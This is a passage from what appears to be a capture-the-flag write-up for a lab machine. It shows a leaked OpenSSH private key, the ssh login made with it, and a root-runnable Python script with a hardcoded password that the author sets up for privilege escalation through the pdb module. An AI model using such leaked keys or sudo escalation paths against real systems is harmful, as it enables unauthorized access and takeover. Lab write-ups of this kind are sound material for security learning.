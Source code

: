  ```
DXfkpfN2GkoA/ulod3LyPZx3QcT8QafdbwAJ0MHNFfKVbqDvtn8Ug4/yfLCueQdlCBAAAA
wFoM1lMgd3jFFi0qgCRI14rDTpa7wzn5QG0HlWeZuqjFMqtLQcDlhmE1vDA7aQE6fyLYbM
0sSeyvkPIKbckcL5YQav63Y0BwRv9npaTs9ISxvrII5n26hPF8DPamPbnAENuBmWd5iqUf
FDb5B7L+sJai/JzYg0KbggvUd45JsVeaQrBx32Vkw8wKDD663agTMxSqRM/wT3qLk1zmvg
NqD51AfvS/NomELAzbbrVTowVBzIAX2ZvkdhaNwHlCbsqerAAAAMEAzRnXpuHQBQI3vFkC
9vCV+ZfL9yfI2gz9oWrk9NWOP46zuzRCmce4Lb8ia2tLQNbnG9cBTE7TARGBY0QOgIWy0P
fikLIICAMoQseNHAhCPWXVsLL5yUydSSVZTrUnM7Uc9rLh7XDomdU7j/2lNEcCVSI/q1vZ
dEg5oFrreGIZysTBykyizOmFGElJv5wBEV5JDYI0nfO+8xoHbwaQ2if9GLXLBFe2f0BmXr
W/y1sxXy8nrltMVzVfCP02sbkBV9JZAAAAwQDErJZn6A+nTI+5g2LkofWK1BA0X79ccXeL
wS5q+66leUP0KZrDdow0s77QD+86dDjoq4fMRLl4yPfWOsxEkg90rvOr3Z9ga1jPCSFNAb
RVFD+gXCAOBF+afizL3fm40cHECsUifh24QqUSJ5f/xZBKu04Ypad8nH9nlkRdfOuh2jQb
nR7k4+Pryk8HqgNS3/g1/Fpd52DDziDOAIfORntwkuiQSlg63hF3vadCAV3KIVLtBONXH2
shlLupso7WoS0AAAAKdXNlckBmb3JnZQE=
-----END OPENSSH PRIVATE KEY-----
```  

+ Now we can ssh using this key, `ssh -i id_rsa user@10.10.11.11`. Dont' forget to change keys permission first else you will get error. `chmod 600 id_rsa`.

![Screenshot from 2022-01-21 00-18-10](https://user-images.githubusercontent.com/79413473/150402713-cc0d73c4-626c-4aea-b7dd-ae91978bf185.png)

and we are in.

## Privilege Escaltion: Abusing python's pdb  module intercat feature

+ Running **sudo -l** we can run `/opt/remote-manage.py` file as sudo. Initially i thought about hijacking python libraries  path but sudo paths are protected.
```
#!/usr/bin/env python3
import socket
import random
import subprocess
import pdb

port = random.randint(1025, 65535)

try:
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    sock.bind(('127.0.0.1', port))
    sock.listen(1)
    print(f'Listening on localhost:{port}')
    (clientsock, addr) = sock.accept()
    clientsock.send(b'Enter the secret passsword: ')
    if clientsock.recv(1024).strip().decode() != 'secretadminpassword':
        clientsock.send(b'Wrong password!\n')
    else:
        clientsock.send(b'Welcome admin!\n')
        while True:
            clientsock.send(b'\nWhat do you wanna do: \n')
            clientsock.send(b'[1] View processes\n')
            clientsock.send(b'[2] View free memory\n')
            clientsock.send(b'[3] View listening sockets\n')
            clientsock.send(b'[4] Quit\n')
            option = int(clientsock.recv(1024).strip())
            if option == 1:
                clientsock.send(subprocess.getoutput('ps aux').encode())
            elif option == 2:
                clientsock.send(subprocess.getoutput('df').encode())
            elif option == 3:
                clientsock.send(subprocess.getoutput('ss -lnt').encode())
            elif option == 4:
                clientsock.send(b'Bye\n')
```